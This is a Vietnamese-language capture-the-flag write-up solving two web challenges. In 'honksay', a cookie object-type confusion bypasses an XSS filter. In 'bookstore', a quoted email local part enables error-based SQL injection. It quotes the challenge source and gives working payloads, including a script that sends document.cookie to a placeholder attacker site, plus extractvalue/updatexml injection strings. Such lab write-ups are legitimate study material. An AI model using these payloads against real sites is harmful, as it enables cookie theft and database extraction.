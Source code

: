 # honksay
![Picture](https://user-images.githubusercontent.com/87886468/187146364-be5d4596-96fc-4bf2-bbcb-cd9107c532e5.png)
### Kiểm tra chức năng web
Bắt đầu challenge, ta thấy trang web chỉ có 1 chỗ để đưa input vào, tiến hành xem source code web thì không có thuộc tính nào là hidden,ta nhập các dữ liệu bất kì cũng như payload xss thì đều sẽ được redirect tới /report. Ta dùng burpsuite để bắt request ta sẽ thấy body request là url=<your_input> .Ta tiến hành kiểm tra cookie thì thấy có 2 cookie là honk và honkCount tiến hành chỉnh sửa thì ta thấy cookie từ honk sẽ được sanitize xss còn honkCount thì không.

### Đọc source code
goose.js
```javascript
const puppeteer = require('puppeteer');
const FLAG = process.env.FLAG || "maple{fake}";

async function visit(url) {
  let browser, page;
  return new Promise(async (resolve, reject) => {
    try {
      browser = await puppeteer.launch({
        headless: true,
        args: [
          '--no-sandbox',
          '--disable-default-apps',
          '--disable-dev-shm-usage',
          '--disable-extensions',
          '--disable-gpu',
          '--disable-sync',
          '--disable-translate',
          '--hide-scrollbars',
          '--metrics-recording-only',
          '--mute-audio',
          '--no-first-run',
          '--safebrowsing-disable-auto-update'
                ]
            });
        page = await browser.newPage();
        await page.setCookie({
            name: 'flag',
            value: FLAG,
            domain: 'localhost',
            samesite: 'none'
        });
        await page.goto(url, {waitUntil : 'networkidle2' }).catch(e => console.log(e));
        console.log(page.cookies());
        await new Promise(resolve => setTimeout(resolve, 500));
        console.log("admin is visiting url:");
        console.log(url);
        await page.close();
        
        console.log("admin visited url");
        page = null;
    } catch (err){
        console.log(err);
    } finally {
        if (page) await page.close();
        console.log("page closed");
        if (browser) await browser.close();
        console.log("browser closed");
        //no rejectz
        resolve();
        console.log("resolved");
    }
  });
};


module.exports = { visit }
```
Ta sẽ hiểu hàm visit() sẽ nhận tham số là url, sau đấy sẽ tiến hành truy cập vào url nếu domain là localhost thì cookie flag sẽ được set. 
```javascript
page = await browser.newPage();
        await page.setCookie({
            name: 'flag',
            value: FLAG,
            domain: 'localhost',
            samesite: 'none'
        });
        await page.goto(url, {waitUntil : 'networkidle2' }).catch(e => console.log(e));
```
Đọc app.js

Ta thấy thêm 1 subdirectory là /changehonk và URL parameter là newhonk
```javascript
app.get('/changehonk', (req, res) => {
    res.cookie('honk', req.query.newhonk, {
        httpOnly: true
    });
    res.cookie('honkcount', 0, {
        httpOnly: true
    });
    res.redirect('/');
});
```
Khi truy cập http://honksay.ctf.maplebacon.org/ thì sẽ tiến hành kiểm tra xem client đã có cookie hay chưa, nếu chưa sẽ set cookie mặc định cho client, còn nếu đã có sẽ tiến hành kiểm tra nếu cookie là object thì sẽ set finalhonk là cookie, nếu không phải object thì sẽ tiến hành santize xss cookie và set value cho message và amountoftimeshonked.
```javascript
app.get('/', (req, res) => {
    if (req.cookies.honk){
        //construct object
        let finalhonk = {};
        if (typeof(req.cookies.honk) === 'object'){
            finalhonk = req.cookies.honk
        } else {
            finalhonk = {
                message: clean(req.cookies.honk), 
                amountoftimeshonked: req.cookies.honkcount.toString()
            };
        }
        res.send(template(finalhonk.message, finalhonk.amountoftimeshonked));
    } else {
        const initialhonk = 'HONK';
        res.cookie('honk', initialhonk, {
            httpOnly: true
        });
        res.cookie('honkcount', 0, {
            httpOnly: true
        });
        res.redirect('/');
    }
});
```
Ta đã thấy lỗ hỏng để ta có thể lấy flag 
```javascript
app.get('/', (req, res) => {
    if (req.cookies.honk){
        //construct object
        let finalhonk = {};
        if (typeof(req.cookies.honk) === 'object'){
            finalhonk = req.cookies.honk
        } else {
            finalhonk = {
                message: clean(req.cookies.honk), 
                amountoftimeshonked: req.cookies.honkcount.toString()
            };
        }
        res.send(template(finalhonk.message, finalhonk.amountoftimeshonked));
```
Ta sẽ làm cho cookie honk thành object và gán 1 trong 2 key với value là payload XSS, khi được render XSS sẽ xảy ra.

#### Payload
http://localhost:9988/changehonk?newhonk[message]=%3Cscript%3Evar%20i%20%20%3D%20new%20Image%28%29%3B%20i.src%20%3D%20%22https%3A%2F%2Fyour_website%3Fflag%3D%22%20%2B%20document.cookie%20%3C%2Fscript%3E

Hoặc
 
http://localhost:9988/changehonk?newhonk[amountoftimeshonked]=3Cscript%3Evar%20i%20%20%3D%20new%20Image%28%29%3B%20i.src%20%3D%20%22https%3A%2F%2Fyour_website%3Fflag%3D%22%20%2B%20document.cookie%20%3C%2Fscript%3E

#### Giải thích 
Hàm visit() sẽ truy cập vào url, nên ta sẽ cho truy cập vào localhost:9988 để flag cookie được set, khi ta truy cập vào /changehonk thì cookie honk  sẽ được set honk = req.query.newhonk, sau đấy sẽ redirect về /, sau khi redirect về /, sẽ tiến hành kiểm tra liệu cookie honk có phải là object, vì ta muốn bypass filter XSS nên ta sẽ cho cookie honk thành object, cookie honk sẽ được render và XSS sẽ xảy ra và gửi request tới server của ta với cookie. 

# bookstore
Challenge cho ta các source nên ta sẽ tiến hành xem qua các file.

Bắt đầu là file validator.js, ta thấy function validateEmail() sẽ dùng isEmail của thư viện validator. Ta tiến hành tìm source code của validator trên google và ta sẽ có code của  [isEmail](https://github.com/validatorjs/validator.js/blob/86a07ba4f3f710f639e92a62cf81dd3321ef9ee8/src/lib/isEmail.js) Tiến hành đọc qua code thì ta sẽ thấy 
```javascript
  if (user[0] === '"') {
    user = user.slice(1, user.length - 1);
    return options.allow_utf8_local_part ?
      quotedEmailUserUtf8.test(user) :
      quotedEmailUser.test(user);
  }
```
Xét email format: user@domain

isEmail sẽ xét phần user nếu user bắt đầu bằng " thì nó sẽ hiểu rằng chuỗi có dạng "something" sau đấy sẽ chuyển thành something, ta được dùng các kí tự có char code từ 13 đến 127 trong ASCII. Hàm validateEmail() sẽ thực thi khi ta tiến hành đăng ký email với option kindle, nên ta sẽ nhìn qua source code:
```javascript
 insertEmail(email, book_id) {
        const query = `INSERT INTO requests(email, book_id) VALUES('${email}', '${book_id}');`;
        return new Promise((resolve, reject) => {
            this.db.query(query, (error) => {
                if (error != null) {
                    reject(error);
                } else {
                    resolve(null);
                }
            })
        })
    }
```
Tại đây ta có ý tưởng sẽ kết thúc câu lệnh insert và chạy câu lệnh update cho title sẽ mang giá trị của texts để ta lấy flag, nhưng vì hàm isEmail giới hạn số kí tự, nên ta sẽ tìm cách khác, ta thấy rằng khi có lỗi xảy ra sẽ được hiển thị => Error Based Injection, tại đây ta có thể dùng updatexml hoặc là extractxml để tiến hành:
### Payload:
"',extractvalue(1,concat(1,(SELECT texts from books limit 1))))#@gmail.com

"',updatexml(1,concat(1,(SELECT texts from books limit 1)),1))#@gmail.com

